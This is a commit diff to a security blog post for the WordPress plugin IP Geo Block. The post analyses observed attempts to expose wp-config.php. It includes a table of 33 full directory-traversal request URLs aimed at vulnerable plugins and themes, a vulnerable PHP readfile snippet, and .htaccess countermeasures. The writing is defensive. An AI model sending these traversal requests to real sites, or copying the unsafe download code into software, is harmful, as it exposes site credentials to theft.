

Before and after one commit to tokkonopapa/WordPress-IP-Geo-Block, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; Markdown is read by kramdown in place of the engine named in the settings; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Add new article.

````diff
--- a/_drafts/2015-10-10-exposure-of-wp-config-php.md
+++ b/_posts/2015-10-24-exposure-of-wp-config-php.md
@@ -1,40 +1,59 @@
 ---
 layout: post
 title:  "Prevent exposure of wp-config.php"
-date:   2015-10-10 09:00:00
+date:   2015-10-24 13:30:00
 categories: article
 published: true
 script: []
 inline:
 ---
 
-From July to September, 33 malicious requests to attempt exposing
-`wp-config.php` had been observed on my site. I analyzed all of them to
-identify if [IP Geo Block][IP-Geo-Block] can block these.
+From July to September, 33 types of malicious requests to attempt exposing the
+`wp-config.php` via vulnerable plugins and themes had been observed on my site.
+I analyzed all of them to identify if [IP Geo Block][IP-Geo-Block] can block
+these or not.
 
-I can't find all the cause of exposure because most of them already removed
-from the WordPress repository. So I can't say the right thing with confidence,
-but the only 2 of these could be blocked even if they were from forbidden
-countries.
+Unfortunately, I could not find all the causes of exposure because most of
+them were already removed from the WordPress repository. So I can't say the
+right thing with confidence, but the only 2 of these could be blocked by
+[IP Geo Block][IP-Geo-Block] even if they were from the forbidden countries.
 
 In this article, I should clarify how to prevent exposure of `wp-config.php`
-with IP Geo Block against such malicous requests.
+against such malicous requests.
 
 <!--more-->
 
-### <span id="sec1">Observed Requests</span> ###
+### <span id="sec1">Analysis of Attack Vectors</span> ###
 
-Before showing the results, I'll show the description of the "**Path**":
+Before showing the results, I'll show you the description of the terms same as
+in [this article][Analysis].
 
-| Symbol                                       | Path to Exploit    | Blocked |
-|:---------------------------------------------|:-------------------|:--------|
-| <span class="label label-success">WP</span>  | via WordPress core | Success |
-| <span class="label label-danger">PD</span>   | Plugin Direct      | Fail    |
-| <span class="label label-warning">N/A</span> | Not Available      | Unknown |
+```text
+Attack Vector = Type x Path
+```
 
-Those are the same meaning in [this article][Analysis]. And here's the table of
-33 requests attempted to expose my `wp-config.php`. Most of them were disclosed
-recently.
+where:
+
+- **Type**: The type of vulnerability that an attacker can abuse. For example,
+  XSS, SQLI, LFI and so on. Also it includes some certain parameters which
+  are generally called "signature".
+- **Path**: The path to the entrance into WordPress where an attacker can
+  deliver the certain type of vulnerability.
+
+The "**Path**" can be categorized into following :
+
+| Abbreviation of **Path** | Description           |
+|:------------------------:|:----------------------|
+| PD                       | **P**lugin **D**irect |
+| WP                       | **W**ord **P**ress    |
+| N/A                      | **N**ot **A**vailable |
+
+Here's the table of 33 requests attempted to expose my `wp-config.php`. Most
+of them were disclosed recently. [IP Geo Block 2.1.5 and under][IP-Geo-Block]
+can protect the **Path** of <span class="label label-success">WP</span> while
+the <span class="label label-danger">PD</span> (and probably
+<span class="label label-warning">N/A</span>) are not because those never load
+the WordPress core.
 
 <div class="table-responsive">
   <table id="my-table" class="table">
@@ -42,6 +61,7 @@
       <tr>
         <th>Disclosed</th>
         <th>Request</th>
+        <th>Type</th>
         <th>Path</th>
       </tr>
     </thead>
@@ -49,201 +69,234 @@
       <tr>
         <td>2015-08-10</td><!-- PD/NG -->
         <td><a href="https://www.exploit-db.com/exploits/37751/" title="WordPress WPTF Image Gallery 1.03 - Aribtrary File Download - Exploits Database">/wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php</a></td>
+        <td><abbr title="Aribtrary File Download">AFD</abbr></td>
         <td><span class="label label-danger">PD</span></td>
       </tr>
       <tr>
         <td>2015-07-16</td><!-- PD/NG https://github.com/wp-plugins/simple-image-manipulator -->
         <td><a href="http://www.vapid.dhs.org/advisory.php?v=147" title="Vulnerability">/wp-content/plugins/./simple-image-manipulator/controller/download.php?filepath=../../../../wp-config.php</a></td>
+        <td><abbr title="Remote File Download">RFD</abbr></td>
         <td><span class="label label-danger">PD</span></td>
       </tr>
       <tr>
         <td>2015-07-12</td><!-- PD/NG https://github.com/wp-plugins/candidate-application-form -->
         <td><a href="https://wpvulndb.com/vulnerabilities/8099" title="Candidate Application Form &lt;= 1.0 - Arbitrary File Download">/wp-content/plugins/candidate-application-form/downloadpdffile.php?fileName=../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-danger">PD</span></td>
       </tr>
       <tr>
         <td>2015-07-09</td><!-- PD/NG https://wordpress.org/plugins/ibs-mappro/developers/ -->
         <td><a href="http://www.securityfocus.com/bid/75698" title="WordPress IBS Mappro Plugin 'download.php' Arbitrary File Download Vulnerability">/wp-content/plugins/ibs-mappro/lib/download.php?file=../../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-danger">PD</span></td>
       </tr>
       <tr>
         <td>2015-07-05</td><!-- PD/NG https://github.com/wp-plugins/image-export -->
         <td><a href="http://www.vapid.dhs.org/advisory.php?v=135" title="Vulnerabilit">/wp-content/plugins/image-export/download.php?file=../../../wp-config.php</a></td>
+        <td><abbr title="Remote File Download">RFD</abbr></td>
         <td><span class="label label-danger">PD</span></td>
       </tr>
       <tr>
         <td>2015-07-05</td><!-- PD/NG https://wordpress.org/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/developers/ -->
         <td><a href="https://www.exploit-db.com/exploits/37494/" title="WordPress S3Bubble Cloud Video With Adverts &amp; Analytics 0.7 - Arbitrary File Download - Exploits Database">/wp-content/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/assets/plugins/ultimate/content/downloader.php?path=../../../../../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-danger">PD</span></td>
       </tr>
       <tr>
         <td>2015-07-05</td><!-- OK https://wordpress.org/plugins/wp-ecommerce-shop-styling/developers/ -->
         <td><a href="http://www.vapid.dhs.org/advisory.php?v=136" title="Vulnerabilit">/wp-content/plugins/wp-ecommerce-shop-styling/includes/download.php?filename=../../../../wp-config.php</a></td>
+        <td><abbr title="Remote File Download">RFD</abbr></td>
         <td><span class="label label-success">WP</span></td>
       </tr>
       <tr>
         <td>2015-07-02</td><!-- OK https://github.com/wp-plugins/wp-swimteam/commit/3652df6c40d493cebb3e19f414edb0898d636bd5 -->
         <td><a href="http://www.vapid.dhs.org/advisory.php?v=134" title="Vulnerabilit">/wp-content/plugins/wp-swimteam/include/user/download.php?file=../../../../../wp-config.php&amp;filename=../../../../../wp-config.php&amp;contenttype=text/html&amp;transient=1&amp;abspath=/usr/share/wordpress</a></td>
+        <td><abbr title="Remote File Download">RFD</abbr></td>
         <td><span class="label label-success">WP</span></td>
       </tr>
       <tr>
         <td>2015-06-10</td><!-- PD/NG https://github.com/wp-plugins/history-collection -->
         <td><a href="https://www.exploit-db.com/exploits/37254/" title="WordPress History Collection &lt;= 1.1.1 - Arbitrary File Download - Exploits Database">/wp-content/plugins/history-collection/download.php?var=../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-danger">PD</span></td>
       </tr>
       <tr>
         <td>2015-04-18</td><!-- N/A NG -->
         <td><a href="https://packetstormsecurity.com/files/131502/WordPress-WP-Mon-Arbitrary-File-Download.html" title="WordPress WP-Mon Arbitrary File Download - Packet Storm">/wp-content/plugins/wp-moN/Assets/download.php?type=octet/stream&amp;path=../../../../&amp;name=wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2015-04-13</td><!-- N/A -->
         <td><a href="https://www.exploit-db.com/exploits/36733/" title="WordPress Plugin 'WP Mobile Edition' 2.2.7 - Remote File Disclosure Vulnerability - Exploits Database">/wp-content/themes/mTheme-Unus/css/css.php?files=../../../../wp-config.php</a></td>
+        <td><abbr title="Remote File Disclosure">RFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2015-03-26</td><!-- PD/NG https://github.com/wp-plugins/aspose-cloud-ebook-generator/commit/1c51e382fed7f3025fbe4469a729fd0aea7a1231 -->
         <td><a href="https://packetstormsecurity.com/files/131040/WordPress-Aspose-Cloud-eBook-Generator-File-Download.html" title="WordPress Aspose Cloud eBook Generator File Download - Packet Storm">/wp-content/plugins/aspose-cloud-ebook-generator/aspose_posts_exporter_download.php?file=../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-danger">PD</span></td>
       </tr>
       <tr>
         <td>2015-02-16</td><!-- N/A -->
         <td><a href="http://milw00rm.org/exploits/7497" title="Wordpress Justified Image Grid 2.0.1 - Multiple (LFD/XSS) Vulnerabilities">/wp-content/plugins/justified-image-grid/download.php?file=file:///var/www/wp-config.php</a></td>
+        <td><abbr title="Local File Disclosure">LFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-12-24</td><!-- N/A -->
         <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/markant/download.php?file=../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-12-24</td><!-- N/A -->
         <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/MichaelCanthony/download.php?file=../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-12-24</td><!-- N/A -->
         <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/felis/download.php?file=../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-12-24</td><!-- N/A -->
         <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/SMWF/inc/download.php?file=../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-12-24</td><!-- N/A -->
         <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/TheLoft/download.php?file=../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-12-24</td><!-- N/A -->
         <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/trinity/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-12-24</td><!-- N/A -->
         <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/urbancity/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-12-24</td><!-- N/A -->
         <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/yakimabait/download.php?file=./wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-12-07</td><!-- N/A -->
         <td><a href="https://wpvulndb.com/vulnerabilities/7710" title="ChurcHope Theme Local File Inclusion (LFI)">/wp-content/themes/churchope/lib/downloadlink.php?file=../../../../wp-config.php</a></td>
+        <td><abbr title="Local File Inclusion">LFI</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-12-06</td><!-- N/A -->
         <td><a href="http://www.homelab.it/index.php/2014/12/06/wordpress-ajax-store-locator-arbitrary-file-download-vulnerability/" title="Wordpress Ajax Store Locator Arbitrary File Download Vulnerability">/wp-content/plugins/ajax-store-locator-wordpress_0/sl_file_download.php?download_file=../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-09-09</td><!-- PD/NG https://github.com/wp-plugins/wp-support-plus-responsive-ticket-system/commit/42d48000a489206243beaabfe798d02d411bd330#diff-29 -->
         <td><a href="https://www.exploit-db.com/exploits/34589/" title="WordPress WP Support Plus Responsive Ticket System 2.0 Plugin - Multiple Vulnerabilities - Exploits Database">/wp-content/plugins/wp-support-plus-responsive-ticket-system/includes/admin/downloadAttachment.php?path=../../../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-danger">PD</span></td>
       </tr>
       <tr>
         <td>2014-09-08</td><!-- N/A -->
         <td><a href="https://www.exploit-db.com/exploits/34578/" title="WordPress Acento Theme view-pdf.php file param - Arbitrary File Download - Exploits Database">/wp-content/themes/acento/includes/view-pdf.php?download=1&amp;file=/path/wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-09-08</td><!-- N/A -->
         <td><a href="https://packetstormsecurity.com/files/128188/WordPress-Antioch-Arbitrary-File-Download.html" title="WordPress Antioch Arbitrary File Download - Packet Storm">/wp-content/themes/antioch/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-09-07</td><!-- N/A -->
         <td><a href="https://cxsecurity.com/issue/WLB-2014090037" title="Wordpress Authentic Theme Arbitrary File Download Vulnerability - CXSecurity.com">/wp-content/themes/authentic/includes/download.php?file=../../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-09-07</td><!-- N/A http://www.organizedthemes.com/themes/epic/ -->
         <td><a href="http://cxsecurity.com/issue/WLB-2014090036" title="Wordpress epic theme Arbitrary File Download Vulnerability - CXSecurity.com">/wp-content/themes/epic/includes/download.php?file=wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-09-03</td><!-- N/A NG -->
         <td><a href="https://blog.sucuri.net/2014/09/slider-revolution-plugin-critical-vulnerability-being-exploited.html" title="Slider Revolution Plugin Critical Vulnerability Being Exploited - Sucuri Blog">/wp-admiN/Admin-ajax.php?action=revslider_show_image&amp;img=../wp-config.php</a></td>
+        <td><abbr title="Local File Inclusion">LFI</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-04-14</td><!-- N/A -->
         <td><a href="https://www.exploit-db.com/exploits/32861/" title="WordPress Theme LineNity 1.20 - Local File Inclusion - Exploits Database">/wp-content/themes/linenity/functions/download.php?imgurl=../../../../wp-config.php</a></td>
+        <td><abbr title="Local File Inclusion">LFI</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-08-31</td><!-- N/A -->
         <td><a href="https://packetstormsecurity.com/files/128101/WordPress-NativeChurch-lote27-FR0_theme-acento-File-Download.html" title="WordPress NativeChurch / lote27 / FR0_theme / acento File Download - Packet Storm">/wp-content/themes/lote27/download.php?download=../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
       <tr>
         <td>2014-08-01</td><!-- https://github.com/wp-plugins/contus-video-gallery/releases -->
         <td><a href="https://wpvulndb.com/plugins/contus-video-gallery" title="WordPress Plugin: contus-video-gallery">/wp-content/plugins/contus-video-gallery/hdflvplayer/download.php?f=../../../../wp-config.php</a></td>
+        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
         <td><span class="label label-danger">PD</span></td>
       </tr>
       <tr>
         <td>2011-09-19</td><!-- N/A http://plugins.svn.wordpress.org/filedownload/ -->
         <td><a href="https://www.exploit-db.com/exploits/17858/" title="WordPress Filedownload Plugin 0.1 - download.php Remote File Disclosure Vulnerability - Exploits Database">/wp-content/plugins/filedownload/download.php?path=../../../wp-config.php&amp;type=aplication/pdf</a></td>
+        <td><abbr title="Remote File Disclosure">RFD</abbr></td>
         <td><span class="label label-warning">N/A</span></td>
       </tr>
     </tbody>
   </table>
 </div>
 
-You can find that most of them had their own download function.
+### <span id="sec2">What's the cause?</span> ###
 
-### <span id="sec2">What's inside?</span> ###
+As you can see, most of them had their own download function like
+`download.php`. Typical OMG <span class="emoji">
+![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f631.png)
+</span> code in there are like following :
 
-Typical OMG <span class="emoji">
-![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f631.png)
-</span> code in <span class="label label-danger">PD</span> are like following :
-
-{% highlight php startinline %}
+{% highlight php %}
+<?php
 $file = $_GET['file'];
 if (file_exists('../../uploads/xxxx/'.$file)) {
     readfile('../../uploads/xxxx/'.$file);
     exit();
 }
+?>
 {% endhighlight %}
 
 This kind of vulnerability is caused by [Directory Traversal][OWASP] attack.
 
-### <span id="sec3">How to protect my site from this kind of OMG code?</span> ###
+### <span id="sec3">How to protect my site against such OMG code?</span> ###
 
-Should we always be careful about the plugins or themes which provide download
-functions?
+First and foremost, we should consider to make the **Path** transformed from
+<span class="label label-danger">PD</span> to
+<span class="label label-success">WP</span>. If those code have a chance to
+load `wp-load.php` before they were excuted, [IP Geo Block][IP-Geo-Block] can
+block the attacks.
 
-If those code have a chance to load `wp-load.php` before they were excuted,
-IP Geo Block can block the attacks.
-
-So instead of reading the PHP code in the plugins or themes which we want to
-install, please put the following directives into `.htaccess` in your plugins
-directory :
+To achieve this, please consider to put the following directives into the
+`.htaccess` in your plugins directory for example :
 
 {% highlight text %}
 # BEGIN IP Geo Block
@@ -256,7 +309,8 @@
 # END IP Geo Block
 {% endhighlight %}
 
-Here is the example of `.htaccess` in themes directory :
+The absolute path of `/wp-content/plugins/` should be changed according to
+your site configuration. And here's the example in themes directory :
 
 {% highlight text %}
 # BEGIN IP Geo Block
@@ -270,12 +324,21 @@
 
 Those will redirect a request, which is pointed to
 `/wp-content/plugins/.../*.php` or to
-`/wp-content/themes/.../*.php`, to the [rewrite.php][WritePHP] in IP Geo Block
-and then it will be validated <span class="emoji">
+`/wp-content/themes/.../*.php`, to the [rewrite.php][WritePHP] in
+[IP Geo Block][IP-Geo-Block] in order to load `wp-load.php` and then it will
+be validated by contry code or WP-ZEP <span class="emoji">
 ![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f4aa.png)
 </span>.
 
-<!-- http://www.emoji-cheat-sheet.com/ -->
+Another consideration for **Type** in **Attack Vector** is that
+[IP Geo Block][IP-Geo-Block] should filter out the "**malicious signature**"
+such as `wp-config.php` or `passwd` to defence against attacks from the
+permitted countries.
+
+I'll provide you this functionarity in the next release (may be 2.2.0) !!
+<span class="emoji">
+![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f63c.png)
+</span>
 
 [IP-Geo-Block]: https://wordpress.org/plugins/ip-geo-block/ "WordPress › IP Geo Block « WordPress Plugins"
 [Analysis]:     {{ "/article/analysis-attack-vector.html" | prepend: site.baseurl }} "Analysis of Attack Vector against WP Plugins"
````
